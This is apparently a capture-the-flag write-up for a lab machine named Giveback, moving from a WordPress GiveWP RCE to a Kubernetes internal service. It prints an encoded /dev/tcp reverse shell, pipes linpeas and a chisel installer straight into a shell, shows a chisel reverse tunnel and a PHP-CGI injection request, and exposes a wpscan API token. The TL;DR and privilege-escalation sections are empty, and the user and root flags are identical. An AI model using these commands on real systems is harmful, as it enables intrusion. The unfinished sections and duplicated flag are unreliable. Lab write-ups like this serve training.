






## TL;DR


### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```


We can see there are 3 open ports, port `22` for `ssh`, port `80` for wordpress server, and port `30686`, for golang http server.

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 66:f8:9c:58:f4:b8:59:bd:cd:ec:92:24:c3:97:8e:9e (ECDSA)
|_  256 96:31:8a:82:1a:65:9f:0a:a2:6c:ff:4d:44:7c:d3:94 (ED25519)
80/tcp    open  http    nginx 1.28.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: nginx/1.28.0
|_http-generator: WordPress 6.8.1
|_http-title: GIVING BACK IS WHAT MATTERS MOST &#8211; OBVI
30686/tcp open  http    Golang net/http server
|_http-title: Site doesn't have a title (application/json).
```

### Get shell using vulnerable plugin on wordpress server

We use `wpscan` to check for known vulnerabilites on the wordpress server, I used free token, you can easily generate one on the website of wpscan.
```bash
┌──(agonen㉿kali)-[~]
└─$ wpscan --url http://giveback.htb/ --api-token A84WpfaaDC3sbFc6WvqlVEvpe7hKJta06iTcavjE9Jw
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
 
[+] URL: http://giveback.htb/ [10.129.124.165]
[+] Started: Sat Nov  1 21:11:17 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.28.0
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://giveback.htb/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://giveback.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 6.8.1 identified (Insecure, released on 2025-04-30).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://giveback.htb/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=6.8.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://giveback.htb/, Match: 'WordPress 6.8.1'
 |

<REDACTED>

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

 |
 | [!] Title: GiveWP < 3.14.2 - Unauthenticated PHP Object Injection to RCE
 |     Fixed in: 3.14.2
 |     References:
 |      - https://wpscan.com/vulnerability/fdf7a98b-8205-4a29-b830-c36e1e46d990
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-5932
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/93e2d007-8157-42c5-92ad-704dc80749a3

```

Alright, we can see `CVE-2024-5932`, which leads to `RCE`. I Used this repo [https://github.com/EQSTLab/CVE-2024-5932](https://github.com/EQSTLab/CVE-2024-5932).

The reverse shell will be this, you can easily get it by typing `payloads` inside your `penelope`.
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTYuMy80NDQ0IDA+JjEpICY=|base64 -d|bash
```

```bash
┌──(.venv)─(agonen㉿kali)-[~/htb/Giveback/CVE-2024-5932]
└─$ python3 CVE-2024-5932-rce.py -u http://giveback.htb/donations/the-things-we-need/ -c "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTYuMy80NDQ0IDA+JjEpICY=|base64 -d|bash"
```

### Find internal service and port forwarding it to our local machine

we can check our `id`:
```bash
I have no name!@beta-vino-wp-wordpress-755f57c9d8-lsbjl:/$ id
uid=1001 gid=0(root) groups=0(root),1001
```

So, we have user id `1001` and also inside root group.
Notice, there is no such user `1001` inside `/etc/passwd`



From the `env` and also the fact we can't execute almost nothing, super stripped environment, we can understand we're inside container, and there is `Kubernetes`.

First, I got `curl` util from here [https://unix.stackexchange.com/a/421318](https://unix.stackexchange.com/a/421318).
```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```

Just paste it, now we can use `__curl` to get enumeration scripts, let's execute linpeas:
```bash
__curl http://10.10.16.188:8081/linpeas.sh | sh
```
and on the local machine:
```bash
python3 -m http.server 8081 -d ..
```



inside the `env` output, we can see these lines:
```bash
LEGACY_INTRANET_SERVICE_PORT=tcp://10.43.2.241:5000                           
LEGACY_INTRANET_SERVICE_PORT_5000_TCP=tcp://10.43.2.241:5000                                                                                                 
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_ADDR=10.43.2.241                                                                                                       
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PORT=5000                               
LEGACY_INTRANET_SERVICE_PORT_5000_TCP_PROTO=tcp                               
LEGACY_INTRANET_SERVICE_SERVICE_HOST=10.43.2.241                              
LEGACY_INTRANET_SERVICE_SERVICE_PORT=5000                                     
LEGACY_INTRANET_SERVICE_SERVICE_PORT_HTTP=5000
```



Okay, I tried to `curl` to this internat service port:
```bash
__curl http://10.43.2.241:5000/
```

It looks like there is some vulnerability in one of those endpoints:
```bash
    <li><a href="/cgi-bin/info">/cgi-bin/info</a> — CGI Diagnostics</li>
    <li><a href="/cgi-bin/php-cgi">/cgi-bin/php-cgi</a> — PHP-CGI Handler</li>
```



We want to be able to explore it easily, so I'll use port forwarding, using [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel), based on this article [https://medium.com/@s12deff/port-forwarding-techniques-152fbc654636](https://medium.com/@s12deff/port-forwarding-techniques-152fbc654636).

First, install `chisel` to your machine (if not installed yet):
```bash
curl https://i.jpillora.com/chisel! | bash
```

Next, upload the `chisel`, which is stand alone go compiled binary, to the remote machine, using the `__curl` we created.
```bash
__curl http://10.10.16.188:8081/chisel > /tmp/chisel; chmod +x /tmp/chisel
```

Lastly, execute on the local host:
```bash
chisel server --reverse -p 1234
```

and on the remote machine (forward to our ip, to port `5000`, from ip `10.43.2.241` and port `5000`): 
```bash
/tmp/chisel client 10.10.16.188:1234 R:5000:10.43.2.241:5000
```



Now, we can easily access `http://127.0.0.1:5000/`, and get the Internal CMS System.


### 

I googled and find this exploit [https://github.com/AlperenY-cs/CVE-2024-4577](https://github.com/AlperenY-cs/CVE-2024-4577), it lets me get `RCE`.

we managed to get `RCE`:



full request:
```bash
POST /cgi-bin/php-cgi?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: curl/8.3.0
Accept: /
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php
echo "1337";
?>
```

Now, we want to send the payload for reverse shell from `penelope`.
I tried to that, but for some reason I can't execute functions at all, don't know why ??


### Privilege Escalation to Root


**User Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
